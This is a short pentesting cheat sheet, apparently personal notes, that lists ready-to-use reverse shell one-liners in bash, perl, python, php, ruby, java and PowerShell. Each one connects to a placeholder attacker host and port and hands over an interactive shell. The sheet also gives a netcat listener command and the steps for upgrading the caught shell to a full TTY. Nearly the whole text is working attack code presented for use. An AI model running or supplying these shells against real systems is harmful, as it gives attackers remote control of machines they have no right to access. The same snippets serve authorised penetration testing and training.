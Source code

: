 # reverse shell

%reverse shell, reverse

## bash reverse shell
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

## perl reverse shell
```
perl -e 'use Socket;$i="<lhost>";$p=<lport>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<lhost>",<lport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php reverse shell
```
php -r '$sock=fsockopen("<lhost>",<lport>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ruby reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("<lhost>",<lport>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## java reverse shell
```
r = Runtime.getRuntime();p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<lhost>/<lport>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor()
```

## powershell reverse shell
```
 $client = New-Object System.Net.Sockets.TCPClient('<lhost>',<lport>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## windows listener autocompletion
```
rlwramp nc -nlvp <port>
```

## interactive reverse shell - and Ctrl+Z (1) 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## interactive reverse shell - on host - and do fg (2)
```
stty raw -echo
```

## interactive reverse shell - on reverse (3)
```
reset
stty rows <ROWS> cols <COLS>
export TERM=xterm-256color
```
